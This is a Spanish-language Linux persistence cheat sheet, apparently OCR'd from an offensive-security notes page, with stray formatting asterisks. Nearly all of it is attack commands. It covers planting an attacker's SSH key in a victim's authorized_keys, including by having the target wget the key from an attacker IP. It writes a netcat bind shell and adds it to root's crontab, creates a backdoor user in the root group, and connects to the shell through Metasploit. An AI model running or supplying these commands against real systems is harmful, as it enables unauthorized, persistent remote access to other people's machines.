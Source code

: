 # Linux
# Malicious SSH Key [ *con credenciales* ]
## Generación de par de claves
```bash
**ssh-keygen** -t rsa -b 4096

*# En caso de que se solicite una contraseña tenemos la opción de dejarlo en blanco*
```

## Tranferencia de la clave pública al usuario comprometido
```bash
**ssh-copy-id** *<victim-user>***@***<target-ip-or-hostname>

# Se solicitará la contraseña del usuario*
```

## Conexión con SSH
```bash
**ssh** *<victim-user>***@***<target-ip-or-hostname>*
```

# Malicious SSH Key [ *sin credenciales* ]
## Generación de par de claves
```bash
**ssh-keygen** -t rsa -b 4096

*# En caso de que se solicite una contraseña tenemos la opción de dejarlo en blanco*
```

## Inicialización de servidor Python
```bash
**cd** ~/.ssh/
**
**python3** -m http.server 80

*# Alternativa con Python2.7*
**python2** -m SimpleHTTPServer 80
```

## Descargar archivo [ *máquina atacante* ]
```bash
**wget** http://*<attacker-ip>/id_rsa.pub*

**cat** *id_rsa.pub >> .ssh/authorized_keys*
```

# Malicious Crontab
## Creación de bindshell
```bash
**echo** 'nc -lkvnp 4443 -e /bin/bash >/dev/null &' > /tmp/bindshell
```

## Creación de crontab maliciosa
```bash
**echo '*** * * * * /tmp/bindshell' | sudo tee -a /var/spool/cron/crontabs/root
```

# New User
## Creación de nuevo usuario
```bash
**adduser** -m ****user -s /bin/bash **ftp**
```

## Cambio de contraseña
```bash
**passwd** ftp
```

## Agregar el usuario a grupo root
```bash
**usermod** -aG root **ftp**
```

# Extra
## Obteniendo conexión con Bindshell
```bash
**use** payload/generic/shell_bind_tcp

**set** RHOST <target-ip>

**set** LPORT <local-port>

**exploit**
```

## Obteniendo conexión con Bindshell
```bash
*# CTRL + Z o escribe 'background' para poner la sesión previamente obtenida en segundo plano*

**sessions** -l
**
**sessions** -u <session-id>

**sessions** <session-id>
```